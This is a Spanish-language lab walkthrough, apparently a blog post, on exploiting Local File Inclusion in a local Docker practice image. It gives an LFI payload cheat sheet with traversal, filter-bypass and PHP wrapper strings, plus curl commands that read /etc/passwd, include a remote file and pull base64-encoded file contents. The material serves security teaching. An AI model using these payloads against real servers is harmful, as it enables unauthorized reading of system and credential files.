 ```yaml
---
title: Laboratorio - LFI
author: cotes
date: 2023-09-07 17:51:00 +0800
categories: [Laboratoriom LFI]
tags: [LFI]
math: true
mermaid: true
image:
  path: /assets/images/Laboratorios/lfi/logo.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: LFI Logo
---
```


LFI (Local File Inclusion) es una vulnerabilidad web, de la cual nos podemos aprovechar para leer archivos de la máquina objetivo y en el mejor de los casos, para los atacantes, llegar a derivarlo a un RCE (Remote Code Execution)

## Cheatsheet 👩‍💻

|   **LFI**                | **Descripción**      |
|:----------------------------:|:-----------------|
| **`../../../../../../../../`** | Payload Básico. |
| **`....//....//....//....//`** | Bypass Posible Filtro. |
| **`/etc/./////.///hosts`**  \  **`/et?/?o?t?`** | Bypass Expresiones Regulares. |
| **`/etc/host%00`** \ **`/etc/passwd/.`** | Bypass Concatenación de Extensiones. |
| **`php://filter/convert.base64-encode/resource=[Path]`** | Wrapper de Codificación en Base64. 
| **`%2e%2e%2f%2e%2e%2f%2e%2e%2f%65%74%63%2f%70%61%73%73%77%64`** | Bypass Posible Filtro. (Se urlencodea la cadena `../../../etc/passwd`) |



> Para practicar esta vulnerabilidad desplegaremos un **laboratorio con Docker:** `docker pull jnazario/lfi-labs`
{: .prompt-info }


* Como nos creó una imagen la ejecutamos haciendo por **Port Forwarding**: **`docker run -dit -p 80:80 <Image ID>`**


## LFI Básico ⚾

1. Para el primer laboratorio **LFI-1** nos dirigimos a: `http://localhost/LFI-1/`

![](/assets/images/lfi/lfi1.png)
   * Vemos que existe un parámetro **page** por el cual podemos indicar una página.
   * Si el **input** del usuario no se encuentra correctamente sanitizado, podemos llegar a leer archivos alojados en el servidor (**archivos de configuración**, **archivos críticos**, **etc**)

2. Intentaremos leer el archivo **`/etc/passwd`**

```bash
curl -s -X GET "http://localhost/LFI-1/index.php?page=/etc/passwd"

<SNIP>
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
<SNIP>
```

### Laboratorio **LFI-3**

* Dependiendo del uso de determinadas librerías para incluir archivos, podremos leer archivos locales o incluir archivos de servidores externos.

    ![](/assets/images/lfi/functions.png)

* Al usar **`file_get_contents()`** podemos **leer archivos locales y externos**

* **Leer Archivos Locales:** `http://localhost/LFI-3/index.php?file=/etc/passwd`
    ```
    root:x:0:0:root:/root:/bin/bash
    daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
    bin:x:2:2:bin:/bin:/usr/sbin/nologin
    sys:x:3:3:sys:/dev:/usr/sbin/nologin
    sync:x:4:65534:sync:/bin:/bin/sync
    games:x:5:60:games:/usr/games:/usr/sbin/nologin
    ```

* **Leer Archivos Remotos:**

    a. Primeros montamos un servidor **HTTP** con Python con un archivo **test.txt** que tenga el contenido `Hola`.

    * **Comando:** `python3 -m http.server 8080`

    b. Realizamos una petición con **cURL** a nuestro servidor:
    * **Comando:** `curl -s -X GET "http://localhost/LFI-3/index.php?file=http://<IP Máquina Host>:8080/test.txt"`

    * **Output**
        ```
        <SNIP>
        Hola
        ```
        > Vemos el contenido de nuestro archivo **test.txt** de nuestra máquina host.
         
### Laboratorio **LFI-5**
Al aplicar el **payload básico** veremos que no nos funciona, esto puede deberse a que se aplique un filtro mediante el cual eliminen `../`, este filtro puede **bypassearse**, si no se encuentra aplicado correctamente.

```php
<?php
$cadena = "../directorio/archivo.txt";
$reemplazo = "";
$nuevaCadena = str_replace("../", $reemplazo, $cadena);
echo $nuevaCadena; # nuevaCadena = directorio/archivo.txt
?>
```

Si nos fijamos bien en el código anterior, veremos que se elimina la coincidencia **`../`**, pero, no se aplica de manera recursiva, es decir, solo lo elimina una vez.

En caso de indicarle **`....//`** al eliminar una única vez **`../`** la cadena final será **`../`**, así que ya encontramos una forma de **bypassear** el filtro posiblemente aplicado.

* **Comando:** `curl -s -X GET "http://localhost/LFI-5/index.php?file=....//....//....//....//....//....//....//....//etc/passwd"`

* **Output**

```
<SNIP>
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
```

### **Usando Wrappers de PHP** 🍬
A pesar de que en todos los casos anteriores obtenemos el archivo **/etc/passwd** exitosamente, existirán casos en los que representar archivos con una estructura con muchas líneas o caracteres especiales puede corromper la muestra del mismo, haciendo que no nos sea posible leer archivos. Para evitar este tipo de problemas podemos representar la información en **base64**

En el laboratorio **LFI-1** podemos obtener el contenido encodeado en base64 usando **php://filter/encode.base64-convert/resource=[Path Archivo]**

* **Comando:** `curl -s -X GET "http://localhost/LFI-1/index.php?page=php://filter/convert.base64-encode/resource=/etc/passwd"`

* **Output**

    ```
    <SNIP>
    cm9vdDp4OjA6MDpyb290Oi9yb290Oi9iaW4vYmFzaApkYWVtb246eDoxOjE6ZGFlbW9uOi91c3Ivc2JpbjovdXNyL3NiaW4vbm9sb2dpbgpiaW46eDoyOjI6YmluOi9iaW46L3Vzci9zYmluL25vbG9naW4Kc3lzOng6MzozOnN5czovZGV2Oi91c3Ivc2Jpbi9ub2xvZ2luCnN5bmM6eDo0OjY1NTM0OnN5bmM6L2JpbjovYmluL3N5bmMKZ2FtZXM6eDo1OjYwOmdhbWVzOi91c3IvZ2FtZXM6L3Vzci9zYmluL25vbG9naW4KbWFuOng6NjoxMjptYW46L3Zhci9jYWNoZS9tYW46L3Vzci9zYmluL25v<SNIP>
    ```

Ahora, podemos decodear la cadena anterior y ver el contenido original

* **Comando:** `echo -n "cm9vdDp4OjA6MDpyb290Oi9yb290Oi9iaW4vYmFzaApkYWVtb246eDoxOjE6ZGFlbW9uOi91c3Ivc2JpbjovdXNyL3N<SNIP>" | base64 -d > lfi.txt`


![](/assets/images/lfi/text.png)